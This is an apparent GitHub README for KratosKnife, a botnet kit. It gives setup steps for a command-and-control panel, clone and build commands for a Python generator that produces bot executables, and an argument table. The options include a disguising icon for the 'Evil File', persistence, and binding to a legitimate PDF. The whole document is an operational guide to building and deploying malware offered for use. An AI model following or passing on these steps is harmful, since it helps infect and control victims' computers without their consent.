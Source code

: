 ## Server Setup

1. Upload & Unzip `panel.zip` on your hosting available in this repo 
2. Create a database with any name you want
3. Change the data in classes/Database.php
4. Change files and folders permission to 777 [**Uploads Folder, Scripts Folder**]
5. Go to `install.php` to create the botnet tables automatically

* [**For Testing Locally**]

1. Install XAMPP, & Put panel files inside htdocs folder and Run Apache & MySQL Service In XAMPP Controller
2. Create a database with any name you want
3. Change the data in classes/Database.php
4. Go to `install.php` to create the botnet tables automatically

## Usage
```bash
# Install dependencies 
$ Install latest python 3.x

# Clone this repository
$ git clone https://github.com/PushpenderIndia/KratosKnife.git

# Go into the repository
$ cd KratosKnife/Botnet-Generator

# Installing dependencies
$ python -m pip install -r requirements.txt

# Update pyinstaller.exe path, in Generator.py (line 9) 

# Getting Help Menu
$ python Generator.py --help

# Making Payload/BOTNET
$ python Generator.py -s localhost/panel -o output_file_name --icon icon/exe.ico

```

## Available Arguments 
* Optional Arguments

| Short Hand         | Full Hand                       | Description                                                                 |
| ------------------ | ------------------------------- | --------------------------------------------------------------------------- |
| -h                 | --help                          | show this help message and exit                                             |
|                    | --interactive                   | Takes Input by asking Questions                                             |
|                    | --icon ICON                     | Specify Icon Path, Icon of Evil File [**Note : Must Be .ico**]              |
| -i INTERVAL        | --interval INTERVAL             | Time between reports in seconds. default=12.       [**Under Development**]  |
| -t TIME_PERSISTENT | --persistence TIME_PERSISTENT   | Becoming Persistence After __ seconds. default=10                           |
| -b file.txt        | --bind LEGITIMATE_FILE_PATH.pdf | Built-In Binder : Specify Path of Legitimate file. [**Under Development**]  |

